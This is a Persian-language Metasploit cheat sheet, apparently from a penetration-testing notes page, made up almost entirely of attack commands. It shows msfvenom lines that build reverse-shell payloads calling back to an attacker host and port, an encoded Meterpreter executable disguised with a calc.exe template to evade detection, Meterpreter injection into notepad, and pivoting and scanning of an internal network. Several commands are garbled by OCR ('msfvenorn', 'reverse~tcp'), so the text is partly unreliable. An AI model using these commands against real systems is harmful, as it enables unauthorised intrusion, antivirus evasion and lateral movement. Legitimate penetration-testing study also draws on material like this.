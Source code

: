 ### ایجاد reverse shell جاوا

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=9999 -f WAR > exploit.war
```

### ایجاد reverse shell برای ویندوز با msfvenom


```msfvenom -p windows/shell_reverse_tcp lhost=ip lport=port -f exe --platform windows >reverse.exe```

### ایجاد پیلود انکد شده با استفاده از  msfvenom

```text
./msfvenorn --payload windows/meterpreter/reverse~tcp --format exe
template calc.exe -k --encoder x86/shikata_ga_nai -i 5 LHOST=1.1.1.1
LPORT=443 callback.exe
```

### شروع دیتابیس msf \(bt5=mysql,kali=postgresql\)

```text
/etc/rc.d/rc.mysqld start
msf db_create root:pass@localhost/metasploit
msf load db mysql
msf db connect root:pass@localhost/metasploit
msf db=import nmap.xml

--- Kali ---
# service postgresql start
# service metasploit start
```

### برگرداندن شل \(به صورت پیش فرض باعث اجرای notepad و تزریق می شود\)

```text
msf use post/windows/manage/multi meterpreter inject
msf set IPLIST attack ip 
msf set LPORT callback port
msf set PIDLIST PID to inject, default creates new notepad
msf set PAYLOAD windows/meterpreter/reverse_tcp
msf set SESSION meterpreter session ID
```

### نمایش بنر html در شبکه داخلی

```text
msf route add ip/range netmask meterpreter ID
msf use post/multi/gather/ping sweep # Set options and run
msf use /auxiliary/scanner/portscan/tcp # Set options and run
msf hosts-u-S x.x.x -R #Searches for x.x.x.' and sets
# RHOSTS
msf use auxiliary/scanner/http/http version # Set options and run
msf services -v -p 80-S x.x.x -R - #Displays IPs x.x.x.' with port
# 80 open
```
